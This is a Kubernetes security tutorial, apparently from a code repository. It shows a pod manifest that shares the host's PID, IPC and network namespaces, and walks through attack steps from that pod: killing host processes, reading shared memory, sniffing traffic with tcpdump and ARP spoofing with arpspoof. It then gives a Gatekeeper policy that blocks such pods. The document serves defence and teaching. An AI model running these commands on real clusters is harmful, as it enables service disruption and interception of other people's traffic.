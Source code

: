 ### Attack Example: Exploitation of Combined Host Namespaces

In this scenario, we will explore how an attacker can exploit a Pod configured with `hostPID`, `hostIPC`, and `hostNetwork` set to `true` to gain extensive access to the host system's processes, IPC resources, and network interfaces.

#### Pod YAML Definition

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: badpod04
spec:
  hostPID: true
  hostIPC: true
  hostNetwork: true
  containers:
  - name: container01
    image: busybox
    command: ["sh", "-c", "sleep 3600"]
```

#### Attack Scenario

1. **Pod Creation**

   The attacker creates the Pod `badpod04` with `hostPID`, `hostIPC`, and `hostNetwork` all set to `true`, granting the container extensive access to the host's namespaces.

2. **Enumerating Host Processes**

   Using the `hostPID` namespace, the attacker can list all processes running on the host:

   ```sh
   kubectl exec -it badpod04 -- sh
   ps -ef
   ```

   This command displays all processes, allowing the attacker to identify and target critical host processes.

3. **Interfering with Host Processes**

   The attacker can interfere with host processes by sending signals, such as terminating a critical process:

   ```sh
   kill -9 <pid>
   ```

   Where `<pid>` is the process ID of a critical host process.

4. **Accessing IPC Resources**

   With `hostIPC`, the attacker can list and manipulate IPC resources:

   ```sh
   ipcs -a
   ```

   This command shows all IPC resources, including shared memory segments, message queues, and semaphores.

   - **Reading Shared Memory**: To read from a shared memory segment:

     ```sh
     cat /proc/sysvipc/shm
     ```

   - **Removing a Semaphore**: To remove a semaphore:

     ```sh
     ipcrm -s <semid>
     ```

     Where `<semid>` is the ID of the semaphore.

5. **Network Sniffing**

   Using the `hostNetwork` namespace, the attacker can capture network traffic on the host's interfaces:

   - **Installing tcpdump**:

     ```sh
     apk update && apk add tcpdump
     ```

   - **Capturing Traffic**:

     ```sh
     tcpdump -i eth0 -w /tmp/capture.pcap
     ```

     This command captures all packets on the `eth0` interface and writes them to a file named `capture.pcap`.

6. **Man-in-the-Middle (MitM) Attack**

   The attacker can perform an ARP spoofing attack to intercept traffic between the victim machine and the gateway:

   ```sh
   arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
   arpspoof -i eth0 -t 192.168.1.1 192.168.1.10
   ```

   This command sends falsified ARP messages, redirecting traffic through the attacker's machine.

#### Impact of the Attack

- **Comprehensive Host Compromise**: The attacker can interfere with host processes, manipulate IPC resources, and intercept network traffic.
- **Data Corruption and Leakage**: The attacker can corrupt data and extract sensitive information from shared memory and network traffic.
- **Denial of Service**: Terminating critical processes and disrupting IPC and network communication can lead to service outages.

### Mitigation

To mitigate these risks, ensure that Pods do not use `hostPID`, `hostIPC`, or `hostNetwork` settings unless absolutely necessary. Implement policies to enforce this.

#### Gatekeeper Policy Example

```yaml
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sNoHostNamespaces
metadata:
  name: disallow-host-namespaces
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
  validation:
    message: "Using host namespaces (hostPID, hostIPC, hostNetwork) is disallowed."
    deny:
      conditions:
        any:
          - key: "spec.hostPID"
            operator: In
            values: [true]
          - key: "spec.hostIPC"
            operator: In
            values: [true]
          - key: "spec.hostNetwork"
            operator: In
            values: [true]
```

### Expected Error Message

If the policy disallows `hostPID`, `hostIPC`, and `hostNetwork`, attempting to create `badpod04` will result in an error:

```
Error from server (Forbidden): error when creating "badpod04.yaml": admission webhook "validation.gatekeeper.sh" denied the request: Using host namespaces (hostPID, hostIPC, hostNetwork) is disallowed.
```

### Summary

Disallowing the use of `hostPID`, `hostIPC`, and `hostNetwork` in Kubernetes pods prevents containers from gaining extensive access to the host's resources, thereby enhancing the security and integrity of the host system. Use policies to enforce these restrictions and ensure a secure cluster environment.